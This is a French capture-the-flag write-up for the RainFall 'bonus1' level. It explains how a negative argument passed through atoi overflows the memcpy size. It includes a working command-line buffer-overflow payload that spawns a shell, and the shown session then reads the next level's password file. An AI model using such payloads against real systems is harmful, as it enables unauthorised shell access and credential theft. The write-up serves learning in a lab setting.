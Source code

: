 # Bonus 1
On ouvre le binaire avec cuter, et on y vois un `/bin/sh` on va devoir essayer de le lancer. le programme contiens deux condition imbriquer la premier check que le premier argument soit inférieur a 10, la seconde qui execute le `/bin/sh` et qui demande que le premier argument soit égale a  `0x574f4c46` (1464814662),  la seule faille présente c'est le `memcpy` en effet le premier argument va être multiplier par 4 avant d'être utiliser en tant que size de memcpy après être passer dans la premiere condition. Puisque le premier argument est passer dans un `atoi` qui créera un int, on peut peut donc luis passer un nombre négatif qui passera la premiere condition et pour que une fois passer dans le paramètre du `memcpy` qui le mutiplira par 4 le résultat nous donne 44. Donc pour tester ca il faut tester les dépassement d'int min. On crée donc un petit code pour tester comment tout ca ce comporte :
```c
#include  <libc.h>

int  main(int  ac,  char  **av) {
	int  a  =  atoi(av[1]);
	printf("%d\n",  a);
	return  0;
}
```
ce qui nous donne : 
```
➜  bonus1 git:(master) ✗ gcc source.c && ./a.out -2147483648 
-2147483648
➜  bonus1 git:(master) ✗ gcc source.c && ./a.out -2147483649 
2147483647
```
on voit donc que une fois que l'int min est dépasser celui-ci boucle vers int max  donc il faut donc faire : 

$$res=\frac{intMin * 2}{4} - \frac{44}{4}$$

```
(4294967295 / 4) - (44 / 4) = 1073741812
```
Nous pouvons donc passer en second paramètre 40 octets suivi de la valeur à assigner à la variable (`0x574f4c46`).
ca nous donne donc : 
```
bonus1@RainFall:~$ ./bonus1 -1073741812 $(python -c 'print "A"*40 + "\x46\x4c\x4f\x57"')
$ whoami
bonus2
$ cat /home/user/bonus2/.pass
579bd19263eb8655e4cf7b742d75edf8c38226925d78db8163506f5191825245
$ 
```
